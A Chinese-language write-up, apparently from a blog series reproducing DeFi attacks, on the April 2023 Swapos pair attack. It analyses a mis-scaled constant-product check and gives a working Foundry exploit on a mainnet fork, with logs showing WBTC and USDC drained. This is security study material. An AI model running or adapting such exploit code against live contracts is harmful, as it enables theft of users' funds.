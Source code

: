 [区块链安全-DEFI攻击复现]002-20230416 Swapos

2023年4月19日，`ETH`链上的`Swapos`遭受了攻击，损失高达`468K`美元。

# 攻击介绍

2023年4月19日，`@BeosinAlert`发出警告，`Ethereum`链上的`SwaposV2Pair`遭受攻击，造成`$467,192`损失，其中的一个攻击哈希为`0x78edc292af51a93f89ac201a742bce9fa9c5d9a7007f034aa30535e35082d50a`。

<hr />

# 攻击分析

使用<a href="https://explorer.phalcon.xyz/tx/eth/0x78edc292af51a93f89ac201a742bce9fa9c5d9a7007f034aa30535e35082d50a">phalcon</a>进行分析，攻击从流程上看很简单，那就是调用`SWP-V2`的`swap`函数，一般来说我们都是与`router`进行交互，除非在`swap`中有余额方面的漏洞（上一个001-OLIFE也利用了类似的漏洞）。

漏洞在这里：

```solidity
        balance0 = IERC20(_token0).balanceOf(address(this));
        balance1 = IERC20(_token1).balanceOf(address(this));
        }
        uint amount0In = balance0 > _reserve0 - amount0Out ? balance0 - (_reserve0 - amount0Out) : 0;
        uint amount1In = balance1 > _reserve1 - amount1Out ? balance1 - (_reserve1 - amount1Out) : 0;
        require(amount0In > 0 || amount1In > 0, 'SwaposV2: INSUFFICIENT_INPUT_AMOUNT');
        { // scope for reserve{0,1}Adjusted, avoids stack too deep errors
        uint balance0Adjusted = balance0.mul(10000).sub(amount0In.mul(10));
        uint balance1Adjusted = balance1.mul(10000).sub(amount1In.mul(10));
        require(balance0Adjusted.mul(balance1Adjusted) >= uint(_reserve0).mul(_reserve1).mul(1000**2), 'SwaposV2: K');
        }
```

因为`balance0Adjusted`和`balance1Adjusted`都是乘了`10000`，而最后只是`mul(1000*2)`，中间差了100倍！

我们不传入，所以`_reserve0 - amount0Out = 0`，所以`balance0Adjusted = balance0`,所以我们只要满足`balance0Adjusted * 10 >= _reserve0`，同时因为有`require(amount0In > 0 || amount1In > 0, 'SwaposV2: INSUFFICIENT_INPUT_AMOUNT');`，我们可以手动转账1单位以绕过限制。

<hr />

# POC

攻击POC如下：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../interface.sol";

// @KeyInfo - Total Lost : ~ 486K US$
// Event : Swapos Hack
// Analysis via https://explorer.phalcon.xyz/tx/eth/0x78edc292af51a93f89ac201a742bce9fa9c5d9a7007f034aa30535e35082d50a
// Attacker : 0x53fc4a4a638378b9b81393fbe0fa9a6de2323ebd
// Attack Contract : 0x2df07c054138bf29348f35a12a22550230bd1405
// Vulnerable Contract : 0xf40593a22398c277237266a81212f7d41023b630 (Pancake Swap Contract)
// Attack Tx : https://etherscan.io/tx/0x78edc292af51a93f89ac201a742bce9fa9c5d9a7007f034aa30535e35082d50a

// @Info
// Price manipulation, Vulnerability Exploit

// @Analysis
// DefiHackLab : https://twitter.com/BeosinAlert/status/1647552192243728385

address constant SWAP_ADDRESS = 0xf40593A22398c277237266A81212f7D41023b630;
address constant WBTC_ADDRESS = 0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599;
address constant USDC_ADDRESS = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
uint256 constant USDC_DECIMALS = 6;
uint256 constant WBTC_DECIMALS = 8;

contract Swapos is Test { // EOA Simulation

    function setUp() public {
        vm.createSelectFork("mainnet",17057442); // Go back before hacking time
        console.log("start with block %d",17057442);
        console.log("Attacker address %s",address(this));
    }

    function testExploit() public {
        console.log("start hacking...");
        emit log_named_decimal_uint("[Start] Attacker WBTC Balance", IERC20(WBTC_ADDRESS).balanceOf(address(this)), WBTC_DECIMALS);
        emit log_named_decimal_uint("[Start] Attacker USDC Balance", IERC20(USDC_ADDRESS).balanceOf(address(this)), USDC_DECIMALS);

        Exploit exploit = new Exploit();
        
        exploit.attack();

        console.log("End hacking...");
        emit log_named_decimal_uint("[End] Attacker WBTC Balance", IERC20(WBTC_ADDRESS).balanceOf(address(this)), WBTC_DECIMALS);
        emit log_named_decimal_uint("[End] Attacker USDC Balance", IERC20(USDC_ADDRESS).balanceOf(address(this)), USDC_DECIMALS);


    }
}

contract Exploit is Test{

    address owner;
    constructor() public{
        owner = msg.sender;
    }

    function attack() public {
        deal(USDC_ADDRESS, address(this), 1);
        IUniswapV2Pair pair = IUniswapV2Pair(SWAP_ADDRESS);
        (uint256 amount0, uint256 amount1,) = pair.getReserves();
        IERC20(USDC_ADDRESS).transfer(SWAP_ADDRESS,1);
        pair.swap(amount0/10 * 9, amount1/10 * 9,owner,"");
    }
}
```

输出如下：

```
[PASS] testExploit() (gas: 2527934)
Logs:
  start with block 17057442
  Attacker address 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496
  start hacking...
  [Start] Attacker WBTC Balance: 0.00000000
  [Start] Attacker USDC Balance: 0.000000
  End hacking...
  [End] Attacker WBTC Balance: 1.42229691
  [End] Attacker USDC Balance: 43099.909083
```



<hr />

# 总结

说实话不知道该怎么说，这种问题能出现所有人都有责任。。

我看了下地址`0x78520513e30ce6Beba2f2e393ae581f3d77db993`，其所创建的合约都在攻击发生20个区块后，迅速撤出了流动性。